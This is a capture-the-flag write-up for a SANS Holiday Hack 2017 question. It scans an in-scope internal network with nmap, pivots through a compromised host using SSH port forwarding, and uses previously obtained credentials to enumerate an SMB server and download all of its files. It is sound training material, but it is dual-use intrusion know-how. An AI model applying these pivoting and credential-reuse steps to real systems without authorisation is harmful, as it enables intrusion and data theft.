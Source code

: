 * Question
   :PROPERTIES:
   :CUSTOM_ID: q3_question
   :END:

The North Pole engineering team uses a Windows SMB server for sharing
documentation and correspondence. Using your access to the Letters to
Santa server, identify and enumerate the SMB file-sharing server.
What is the file server share name?

/For hints, please see Holly Evergreen in the Cryokinetic Magic Level.

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q3_background-information
   :END:

Holly's hints are:

#+begin_hint
Nmap has default host discovery checks that may not discover all hosts.  To customize which ports Nmap looks for during host discovery, use `-PS` with a port number, such as `-PS123` to check TCP port 123 to determine if a host is up.
#+end_hint
#+begin_hint
Alabaster likes to keep life simple. He chooses a strong password, and sticks with it.
#+end_hint
#+begin_hint
The Letters to Santa server is limited in what commands are available. Fortunately, SSH has enough flexibility to make access through the Letters server a fruitcake-walk.
#+end_hint
#+begin_hint
Have you used port forwarding with SSH before? It's pretty amazing! [Here is a quick guide](https://help.ubuntu.com/community/SSH/OpenSSH/PortForwarding).
#+end_hint
#+begin_hint
Windows users can use SSH port forwarding too, using PuTTY! [Here is a quick guide for Windows users](https://blog.devolutions.net/2017/04/how-to-configure-an-ssh-tunnel-on-putty.html).
#+end_hint
#+begin_hint
Sometimes it's better to use a Linux system as the SSH port forwarder, and interact with a Linux system from a Windows box. For example, running `ssh -L :445:SMBSERVERIP:445 username@sshserver` will allow you to access your Linux server's IP, which will forward directly to the SMB server over SSH.
#+end_hint
#+begin_hint
Linux systems can also interact with a Windows server using the smbclient utility: `smbclient -L smbserverorforwarder -U username`.
#+end_hint

The scope statement calls out systems on 10.142.0.0/24 as being in scope:

#+BEGIN_QUOTE
SCOPE: For this entire challenge, you are authorized to attack ONLY
the Letters to Santa system at l2s.northpolechristmastown.com AND
other systems on the internal 10.142.0.0/24 network that you access
through the Letters to Santa system.
#+END_QUOTE

The question mentions pivoting through the [[#q2_approach][Letters to Santa server]] (=l2s=). A commonly used tool for network discovery is =nmap=, and we can check that it's available on =l2s=:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.VmaV55tqZi5rteO9fXHB3kjM$ nmap -V

Nmap version 7.40 ( https://nmap.org )
Platform: x86_64-pc-linux-gnu
Compiled with: liblua-5.3.3 openssl-1.1.0c libpcre-8.39 libpcap-1.8.1 nmap-libdnet-1.12 ipv6
Compiled without:
Available nsock engines: epoll poll select
#+END_SRC

There's a great =nmap= overview available here: https://nmap.org/book/nmap-overview-and-demos.html

We also know that the SMB suite of protocols uses a lot of ports, but 445 is one of the main ones.

This post on the SANS Pen Testing Blog seems relevant, but masscan isn't installed on =l2s=:

- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q3_goal
   :END:

Three separate things:

1. Identify the SMB server,
2. Enumerate the shares on it,
3. Name the file server share.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q3_approach
   :END:

Let's follow the =nmap= overview.

#+BEGIN_QUOTE
Being the careful type, Felix first starts out with what is known as
an Nmap list scan (-sL option). This feature simply enumerates every
IP address in the given target netblock(s) and does a reverse-DNS
lookup (unless -n was specified) on each. One reason to do this first
is stealth. The names of the hosts can hint at potential
vulnerabilities and allow for a better understanding of the target
network, all without raising alarm bells.
#+END_QUOTE

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.sjKK74OSjKfIxlr5otQil8yd$ nmap -sL 10.142.0.0/24

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-08 02:40 UTC
Nmap scan report for 10.142.0.0
Nmap scan report for 10.142.0.1
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Nmap scan report for 10.142.0.4
Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Nmap scan report for 10.142.0.9
Nmap scan report for 10.142.0.10
Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Nmap scan report for 10.142.0.12
Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Nmap scan report for 10.142.0.14
Nmap scan report for 10.142.0.15
...
#+END_SRC

Parsing the results a bit:

| Hostname             |          IP |
|----------------------+-------------|
| hhc17-l2s-proxy      |  10.142.0.2 |
| hhc17-apache-struts1 |  10.142.0.3 |
| mail                 |  10.142.0.5 |
| edb                  |  10.142.0.6 |
| hhc17-smb-server     |  10.142.0.7 |
| hhc17-emi            |  10.142.0.8 |
| hhc17-apache-struts2 | 10.142.0.11 |
| eaas                 | 10.142.0.13 |

One of the systems is named =hhc17-smb-server=. 

Continuing with the overview, we can now narrow in on a single IP. This is the same technique suggested in one of the hints:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.sjKK74OSjKfIxlr5otQil8yd$ nmap -p- -PS445 -A -T4 -oA avatartcpscan-%D 10.142.0.7

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-08 02:51 UTC
Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Host is up (0.00040s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-emi
| Not valid before: 2017-11-06T13:51:23
|_Not valid after:  2018-05-08T13:51:23
|_ssl-date: 2018-01-08T02:54:30+00:00; 0s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=hhc17-emi
| Subject Alternative Name: DNS:hhc17-emi
| Not valid before: 2017-11-07T13:52:11
|_Not valid after:  2018-11-07T13:52:11
|_ssl-date: 2018-01-08T02:54:30+00:00; 0s from scanner time.
49666/tcp open  msrpc              Microsoft Windows RPC
49668/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: HHC17-EMI, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:07 (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.99 seconds
#+END_SRC

So it does indeed seem to be an SMB server. A command-line tool to access it is =smbclient=:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts1:/tmp/asnow.sjKK74OSjKfIxlr5otQil8yd$ smbclient -L 10.142.0.7 -U alabaster_snowball
rbash: smbclient: command not found
#+END_SRC

It's not available on =l2s=. Another option is forwarding a port through SSH:

#+BEGIN_SRC
user@vps $ ssh alabaster_snowball@l2s.northpolechristmastown.com -O forward -L 4445:10.142.0.7:445
#+END_SRC

Now we can access port 445 on =hhc17-smb-server= via port 4445 on =localhost=:

#+BEGIN_SRC
user@vps $ smbclient -L localhost -p 4445 -U alabaster_snowball
WARNING: The "syslog" option is deprecated
Enter alabaster_snowball's password: 
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        FileStor        Disk
        IPC$            IPC       Remote IPC
Connection to localhost failed (Error NT_STATUS_CONNECTION_REFUSED)
NetBIOS over TCP disabled -- no workgroup available
#+END_SRC

=FileStor= looks interesting. Let's see what's on it:

#+BEGIN_SRC
user@vps $ smbclient //localhost/FileStor -p 4445 -U alabaster_snowball
WARNING: The "syslog" option is deprecated
Enter alabaster_snowball's password:
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]
smb: \> ls
  .                                   D        0  Wed Dec  6 16:51:46 2017
  ..                                  D        0  Wed Dec  6 16:51:46 2017
  BOLO - Munchkin Mole Report.docx      A   255520  Wed Dec  6 16:44:17 2017
  GreatBookPage3.pdf                  A  1275756  Mon Dec  4 14:21:44 2017
  MEMO - Calculator Access for Wunorse.docx      A   111852  Mon Nov 27 14:01:36 2017
  MEMO - Password Policy Reminder.docx      A   133295  Wed Dec  6 16:47:28 2017
  Naughty and Nice List.csv           A    10245  Thu Nov 30 14:42:00 2017
  Naughty and Nice List.docx          A    60344  Wed Dec  6 16:51:25 2017

                13106687 blocks of size 4096. 9624115 blocks available
smb: \> mget *
getting file \BOLO - Munchkin Mole Report.docx of size 255520 as BOLO - Munchkin Mole Report.docx (1094.4 KiloBytes/sec) (average 1094.4 KiloBytes/sec)
getting file \GreatBookPage3.pdf of size 1275756 as GreatBookPage3.pdf (2818.7 KiloBytes/sec) (average 2231.9 KiloBytes/sec)
getting file \MEMO - Calculator Access for Wunorse.docx of size 111852 as MEMO - Calculator Access for Wunorse.docx (666.0 KiloBytes/sec) (average 1924.0 KiloBytes/sec)
getting file \MEMO - Password Policy Reminder.docx of size 133295 as MEMO - Password Policy Reminder.docx (834.4 KiloBytes/sec) (average 1752.3 KiloBytes/sec)
getting file \Naughty and Nice List.csv of size 10245 as Naughty and Nice List.csv (99.1 KiloBytes/sec) (average 1599.3 KiloBytes/sec)
getting file \Naughty and Nice List.docx of size 60344 as Naughty and Nice List.docx (390.3 KiloBytes/sec) (average 1452.3 KiloBytes/sec)
#+END_SRC

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q3_solution
   :END:

We used =nmap= to list our targets, and found =hhc17-smb-server=. We
used SSH forwarding to connect to it with =smbclient=. We used the
credentials we found for question 2 to connect.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q3_common-pitfalls
   :END:

It looks like =hhc17-smb-server= blocks pings. By default, =nmap= uses
pings to determine which hosts are up, and which it should scan
further. We used the "list scan," which just did reverse DNS queries,
and were able to identify the system quickly. If, however, someone
just tried to run =nmap -p 445 10.142.0.0/24=, they wouldn't find the system.

It also looked like two systems were mixed up in NetBIOS and RDP SSL cert names:

#+BEGIN_SRC 
Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
...
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-emi
...
Host script results:
| nbstat: NetBIOS name: HHC17-EMI, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:07 (unknown)
...
Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
...
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-smb-server
...
Host script results:
| nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
#+END_SRC

